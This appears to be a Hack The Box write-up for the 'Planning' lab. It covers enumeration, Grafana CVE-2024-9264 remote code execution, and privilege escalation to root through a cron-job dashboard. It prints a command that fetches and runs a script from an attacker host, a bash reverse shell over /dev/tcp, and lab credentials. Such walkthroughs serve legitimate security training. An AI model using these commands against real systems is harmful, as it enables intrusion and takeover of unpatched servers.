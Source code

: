 In this writeup we will talk about planning lab which is an easy lab in Hack the box

[planning](../images/planning.png)

# nmap

![nmap](images/nmap.png)

with this nmap scan we can see http is open but when you go to the host it says planning.htb so you need to add planning.htb in /etc/hosts file

# enumeration

after going to planning.htb you will notice its just a courses website. but here comes the subdomain enumeration

using ffuf or any subdomain enumeration you will notice theres a grafana.planning.htb

then you will use the provided credentials and you will notice the version of grafana is 11.0.0 which is vulnerable to **CVE-2024-9264**

# **CVE-2024-9264**

this cve is RCE n grafana because of duckdb sqli

git clone it then you will need to make a reverse shell to gain shell

`python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.99:8000/rev.sh -O /tmp/rev.sh && chmod +x /tmp/rev.sh && /tmp/rev.sh" [http://grafana.planning.htb](http://grafana.planning.htb/)`

the [rev.sh](http://rev.sh) ⇒

`#!/bin/bash
bash -i >& /dev/tcp/10.10.16.99/9090 0>&1`

then you will gain access.

# privilege escalation

when you gain access you will notice you can type **env** comand

env ⇒ command that displays the environment variables

then you will notice the password of user **enzo** is displayed.

gain access as enzo so you can unlock more approaches

# Enzo

as enzo go for privilege escalation approaches is searchng for cronjobs. so you will notice the crontab.db inside /opt

display it and you will figure out that theres a dashboard for the cronjobs running somewhere

with running `netstat -tupln` you will notice theres something running in port 8000

with **port forwarding** technique you can display that service in your localhost

`ssh -L 8000:127.0.0.1:8000 enzo@planning.htb`

go to 127.0.0.1:8000 and then type the password you gained from the cronjobs db

we now have the cronjobs and can set a new one

set a new one that copies the bash binary into the tmp directory

![cronjobs](images/cron.png)
from enzo run ./bash -p in the tmp folder and now we are root
